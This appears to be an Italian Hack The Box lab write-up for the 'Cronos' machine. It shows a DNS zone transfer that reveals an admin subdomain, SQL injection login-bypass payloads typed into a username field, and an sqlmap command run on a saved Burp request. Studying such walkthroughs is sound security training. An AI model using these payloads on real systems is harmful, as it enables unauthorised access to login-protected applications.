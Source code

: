 ```bash
┌──(root㉿kali)-[/home/kali/htb/cronos]
└─# dig axfr cronos.htb @10.10.10.13


; <<>> DiG 9.18.12-1-Debian <<>> axfr cronos.htb @10.10.10.13
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 60 msec
;; SERVER: 10.10.10.13#53(10.10.10.13) (TCP)
;; WHEN: Thu May 18 10:02:36 EDT 2023
;; XFR size: 7 records (messages 1, bytes 203)
                                        
```
Aggiungiamo il tutto al nostro /etc/hosts

Possiamo notare un indirizzo interessante "admin.cornos.htb"
lo visitiamo e ci troviamo di fronte ad un form di login 

## SQL INJECTION (Manuale)

Proviamo a vedere se è vulnerabile a qualche SQL injection qui abbiao alcuni cheatseet
https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/

Abbimo due iniezioni che funzionano nel campo username:

"admin' --"
"' or 1=1-- -"

Siamo dentro. 

## SQL INJECTION (Automatico NO OSCP)

Apriamo burp e facciamo una prima richiesta con user e pass random, ce la salviamo in
un file .req 

Utiliziamo questa sintassi di sqlmap

```bash
┌──(root㉿kali)-[/home/kali/tool/sqlmap-dev]
└─# sqlmap  -r login.req -v 4 
```
 
 "-r " serve per dire ad sqlmap di utilizzare un file contente una richiesta HTTP 
 su qui basare le porve di injection 
 "-v 4" server per vedere ogni singola ijnection

